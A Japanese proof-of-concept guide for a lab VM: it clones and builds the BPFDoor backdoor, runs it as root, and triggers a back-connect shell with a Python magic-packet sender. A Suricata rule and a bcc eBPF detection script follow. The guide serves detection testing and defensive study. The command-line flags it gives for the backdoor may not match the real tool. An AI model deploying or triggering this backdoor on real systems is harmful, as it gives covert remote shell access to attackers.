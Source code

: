 以下は、malwaredevil/BPFDoor-Backdoor リポジトリを使用した PoC（Proof-of-Concept）構成の例です。  
→ **隔離されたテスト用VM**（例：VirtualBox/KVM）またはDockerコンテナでのみ実行してください！

---

## 1. テスト環境の準備

- **OS**: Ubuntu 22.04（または Rocky Linux 9）
- **必須パッケージ**:
  ```bash
  sudo apt-get update
  sudo apt-get install -y build-essential git python3 python3-pip bpfcc-tools
  ```

- **ネットワーク**: VMはホスト専用または内部ブリッジで外部アクセスを遮断

---

## 2. バックドアソースのクローンとビルド

```bash
git clone https://github.com/malwaredevil/BPFDoor-Backdoor.git
cd BPFDoor-Backdoor
make
# → 出力物: ./bpfdoor
```

---

## 3. バックドアの実行（被害者）

```bash
# ルート権限で実行
sudo ./bpfdoor \
  --listen-ip 0.0.0.0 \   # 受信するIP
  --listen-port 9999      # マジックパケットのポート
```

> この状態で待機すると、指定したUDPポートに「マジックシーケンス」を受信したときにシェル（バックコネクト）を開きます。

---

## 4. マジックパケットの送信（攻撃者）

```bash
# send_magic.py
import socket

MAGIC = b'MAGICPING'          # リポジトリのコードに合わせて  
TARGET = ("192.168.56.101", 9999)  # 被害者のIP:ポート

s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
s.sendto(MAGIC, TARGET)
print("マジックパケットを送信しました")
```

```bash
python3 send_magic.py
```
→ 被害者側で `nc` などを使ってシェルが開くか確認

---

## 5. 検出シナリオ

### 5.1 Suricataルール

```yaml
# /etc/suricata/rules/bpfdoor.rules
alert udp any any -> any 9999 \
  (msg:"[PoC] BPFDoor magic packet"; content:"MAGICPING"; sid:9000001; rev:1;)
```

```bash
sudo suricata -c /etc/suricata/suricata.yaml --af-packet any -S /etc/suricata/rules/bpfdoor.rules
```

---

### 5.2 eBPFリアルタイムモニタリング（bcc使用）

```python
# detect_bpfdoor.py
from bcc import BPF

prog = r"""
int kprobe__sys_recvfrom(struct pt_regs *ctx) {
    // bufポインタはPT_REGS_PARM2(ctx)
    char buf[8];
    bpf_probe_read(&buf, sizeof(buf), (void *)PT_REGS_PARM2(ctx));
    // "MAGICPIN"をチェック（最後のGは次のバイト）
    if (buf[0]=='M' && buf[1]=='A' && buf[2]=='G' && buf[3]=='I'
     && buf[4]=='C' && buf[5]=='P' && buf[6]=='I' && buf[7]=='N') {
        bpf_trace_printk(">> BPFDoorトリガーを検出\\n");
    }
    return 0;
}
"""
b = BPF(text=prog)
print("recvfrom() をトレース中… Ctrl-Cで終了")
b.trace_print()
```

```bash
sudo python3 detect_bpfdoor.py
```

→ マジックパケットを受信するたびに `>> BPFDoor trigger detected` のログが出力される

---

## 6. 全体PoCの流れ

1. **被害者VM** で Suricata（またはeBPFスクリプト）によるモニタリングを開始  
2. **被害者VM** で `sudo ./bpfdoor` を実行  
3. **攻撃者VM** で `python3 send_magic.py` を実行  
4. Suricataのアラート発生またはeBPFログ確認 → 攻撃を検出  

---

